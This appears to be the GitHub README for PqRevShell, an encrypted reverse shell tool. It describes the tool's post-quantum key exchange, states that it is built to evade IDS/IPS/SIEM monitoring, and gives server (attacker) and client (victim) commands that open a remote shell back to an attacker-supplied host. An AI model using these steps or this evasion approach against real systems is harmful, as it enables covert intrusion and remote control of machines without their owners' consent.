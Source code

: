 Work In Progress WIP.
All credits to OusCyb3rH4ck.

# PqRevShell
PqRevShell is a **secure reverse shell tool** that utilizes **ML-KEM (aka Kyber)** for secure key exchange and **Chacha20 encryption** to ensure encrypted communication between a client and a server. This project demonstrates a robust and secure way to establish a command execution environment, where commands issued by the server are securely transmitted to the client and executed, with responses being sent back in an encrypted format.

By leveraging **ML-KEM + HKDF** for key exchange and **Chacha20 encryption**, this tool is designed to bypass traditional security systems such as **Intrusion Detection Systems (IDS), Intrusion Prevention Systems (IPS), and Security Information and Event Management (SIEM)** systems, making it a powerful tool for penetration testing in environments with strict monitoring.

### **Key Features:**
- **ML-KEM Key Exchange:** Post-Quantum Secure key exchange using ML-KEM to prevent Man-in-the-Middle (MITM) attacks.
- **HKDF Key Derivation:** Derives a secure Chacha20 key and IV using HMAC-based Key Derivation Function (HKDF).
- **Chacha20 Encryption:** Encrypts all communication between the client and server.
- **File exchange:** File exchange(upload/download) with the victim.
- **Client-Server Architecture:** Reverse shell functionality with encrypted command execution.
- **Resistance to MITM:** ECDH ensures that even if an attacker intercepts the communication, they cannot decrypt the data.
- **Bypass of IDS/IPS/SIEM:** Chacha20 encryption hides the command and control traffic, making it difficult to detect by network monitoring systems.

### **How It Works:**
1. **Key Exchange:**
   - The server and client generate their own ML-KEM key pairs (private and public keys).
   - They exchange their public keys and compute a shared secret.
   - The shared secret is used to derive a secure Chacha20 key and IV using HKDF.

2. **Encrypted Communication:**
   - All commands and responses are encrypted with Chacha20.
   - The server sends encrypted commands to the client, which decrypts and executes them.
   - The client sends the encrypted output back to the server.

3. **Secure Execution:**
   - The client executes commands in a secure environment and returns the encrypted output to the server.

## **Installation**
1. Install dependencies:
   ```bash
   pip install -r requirements.txt
   ```

2. Clone the repository:
   ```bash
   git clone https://github.com/JuanPardos/PqRevShell
   cd PqRevShell
   ```

3. Make the scripts executable (Optional):
   ```bash
   chmod +x client.py server.py
   ```

## **Usage**

#### **Server (attacker):**
Start the server (attacker) with the desired port (defaults to 5050 if empty):
```bash
./server.py -p PORT*
```

#### **Client (victim):**
Connect the client (victim) to the server. Port is opcional, defaults to 5050:
```bash
./client.py -s SERVER_IP/HOSTNAME -p PORT*
```

### **Security Features**
- **ML-KEM Key Exchange:** Prevents MITM attacks by securely exchanging keys.
- **HKDF Key Derivation:** Ensures unique and secure keys for each session.
- **Chacha20 Encryption:** Encrypts all communication to protect against eavesdropping.
- **No Manual Key Sharing:** Keys are exchanged securely without manual intervention.

### **Disclaimer**
This tool is intended for **educational purposes** and **authorized penetration testing** only. Do not use it for malicious purposes. The authors are not responsible for any misuse of this tool.

### **Contributing**
Contributions are welcome! If you have any suggestions, improvements, or bug fixes, feel free to open an issue or submit a pull request.

### **Author**
- [OusCyb3rH4ck](https://github.com/OusCyb3rH4ck)
